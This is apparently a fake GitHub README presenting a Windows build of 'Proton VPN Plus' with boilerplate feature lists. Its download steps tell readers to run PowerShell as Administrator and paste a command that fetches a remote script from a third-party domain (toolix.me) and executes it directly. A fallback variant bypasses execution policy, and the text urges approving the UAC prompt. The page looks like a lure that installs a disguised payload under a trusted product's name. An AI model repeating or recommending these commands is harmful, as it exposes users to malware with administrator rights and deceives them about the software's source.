

***

# Proton VPN Plus

<p align="center">
  
</p>

Proton VPN Plus — Windows 11 and 10 build | profile tunnels | split app rules.

## About this application

**Proton VPN Plus** in this repo is a Windows desktop package for people who want a private tunnel. Expect a guided first launch, access to the VPN desk with secure tunnel and server picks, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Proton VPN Plus suits people who want a private tunnel who need a straightforward Windows install and a focused secure tunnel and server picks workflow.

## What's included

VPN desk tools are bundled in this release. Install locally, open the app, and use the secure tunnel and server picks toolkit right away.

## Features

⚡ Quick connect
🧩 Profiles
🗺️ Server map
🛡️ Kill switch
✨ Split rules
🗂️ Favorite hops
📉 Status tray

## Good for

- 📌 Travel laptops
- 🎯 Remote workers
- ⭐ Campus Wi-Fi

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 1 GB available storage

***